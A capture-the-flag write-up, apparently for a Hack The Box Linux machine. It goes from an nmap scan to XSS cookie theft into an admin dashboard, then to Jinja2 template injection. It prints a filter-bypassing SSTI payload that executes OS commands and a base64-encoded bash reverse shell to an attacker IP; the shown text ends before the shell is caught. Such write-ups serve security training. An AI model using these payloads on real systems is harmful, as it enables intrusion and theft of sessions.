

<br />


<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Enumeration:

<br />

As always, we'll start by launching our nmap scan:

<br />

```bash
❯ nmap -p- 10.10.11.12 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-30 15:04 CET
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for 10.10.11.12
Host is up (0.044s latency).
Not shown: 65471 closed tcp ports (reset), 62 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.03 seconds
```

<br />

Ports 22 and 80 open, nothing out of the ordinary.

<br />

# Web Enumeration:

<br />

We proceed to list the website, but doing so redirects us to the next domain -> capiclean.htb. 

So we added it to the /etc/hosts to be able to access:

<br />

```bash
❯ echo -n '10.10.11.12 capiclean.htb' | tee -a /etc/hosts
10.10.11.12 capiclean.htb
```

<br />

We relist the website and find a fairly straightforward page and another with a login where we try default credentials like admin:admin but nothing: 

<br />


<br />

We kept looking and found another page a little more interesting with an user input in the /quote path:

<br />


<br />

As always when we have an input, we intercept the request with Burp Suite and start testing different types of vulnerabilities such as SQL Injection, XSS...

<br />


<br />

# Exploiting XXS:

<br />

After several tests we are able to receive a request by GET from the server exploiting an XSS:

Payload -> \\</img\>


<br />



<br />

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.12 - - [30/Dec/2024 16:18:07] code 404, message File not found
10.10.11.12 - - [30/Dec/2024 16:18:07] "GET /testing.png HTTP/1.1" 404 -
```

<br />

We have an XSS so to take advantage of it we built a payload with fetch to try to steal the cookies from some admin who is behind the web loading our malicious code:

Payload -> \\</img\>


<br />


<br />

SURPRISE! We steal a cookies vault!

<br />

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.12 - - [30/Dec/2024 16:25:06] code 404, message File not found
10.10.11.12 - - [30/Dec/2024 16:25:06] "GET /testing.pngsession=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Z3KL3Q.0csXF3KeXH5L4JLYhYqvjWLgfX8 HTTP/1.1" 404 -
```

<br />

We fuzzed the web a bit to see if we could find a path where we could use our new cookies and discovered the /dashboard path.

<br />

```bash
000002927:   302        5 L      22 W       189 Ch      "dashboard"
```

<br />

Once we have discovered this path, we set the cookies and access it, managing to enter what appears to be the website's administration panel:

<br />


<br />


<br />

# Dashboard Enumeration:

<br />

The panel we have accessed consists of 4 different pages, so we will investigate them 1 by 1 to better understand how the website works and identify any vulnerabilities:

<br />

## Generating An Invoice:

<br />

Access the /InvoiceGenerator path and fill in the data:

<br />


<br />

Click on generate and it returns the ID of the generated invoice:

<br />


<br />

## Generate A QR:

<br />

We access the /QRGenerator and with the invoice ID we generate a QR Code:

<br />


<br />

Click on generate and it returns the QR Code Link:

<br />


<br />

We copy the url link and insert it in the section where it tells us to enter it:

<br />


<br />

Click on submit and we access a url with the invoice we have generated:

<br />


<br />

# Server Side Template Injection (SSTI):

<br />

Now that we have seen in detail how the website works, we proceed to intercept with Burp Suite the request of the /QRGenerator and when we send it we see in the response the raw
base64 encoded image:

<br />


<br />

We try to manipulate the qr link field and we see it reflected in the response:

<br />


<br />


We're being able to see our output reflected, so the first vulnerability that comes to mind is an SSTI, let's test it with a simple operation like {{7*7}}:

<br />


<br />

We did it! The result of the operation is reflected in the output, so let's try to execute a command in the victim machine with one of the most typical jinja2 payloads to bypass the most common filters:

Payload -> {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

<br />


<br />

Perfect! We have an RCE, we are going to establish a Reverse Shell to gain access to the Machine.

In this case, the typical bash Reverse Shell doesn't work, I think it's because some characters conflict, so to avoid this we'll base64 encode our payload:

<br />

```bash
❯ echo -n 'bash -c "bash -i >& /dev/tcp/10.10.14.13/443 0>&1"' | base64 -w 0; echo
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDMgMD4mMSI=
```

<br />

Once we have our payload encoded, we will simply have to enter it into the jinja payload and listen on port 443 to receive the connection when sending the request to the server:

<br />


<br />
